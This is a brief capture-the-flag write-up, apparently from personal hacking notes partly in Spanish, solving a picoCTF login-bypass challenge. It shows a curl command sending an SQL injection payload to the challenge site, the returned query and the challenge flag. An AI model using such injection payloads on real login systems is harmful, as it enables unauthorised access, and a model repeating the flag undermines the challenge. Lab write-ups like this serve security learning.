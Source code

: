 ## descripcion

There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751
## pistas 

The password is being filtered.
## Solution

```
VFlours@win MINGW64 /d/Downloads/notas-hacking (main)
$ curl -s https://jupiter.challenges.picoctf.org/problem/53751/login.php -d "username=admin';&password=password&debug=1"
<pre>username: admin';
password: password
SQL query: SELECT * FROM users WHERE name='admin';' AND password='password'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>


```

## notas

Comandos utilizados:
	1.

se utilizo otro tipo de injeccion , el prposito es ver que tipo de sentencia sql verifica y a partir de ahi explotar esta sentencia para que pueda acceder
## references
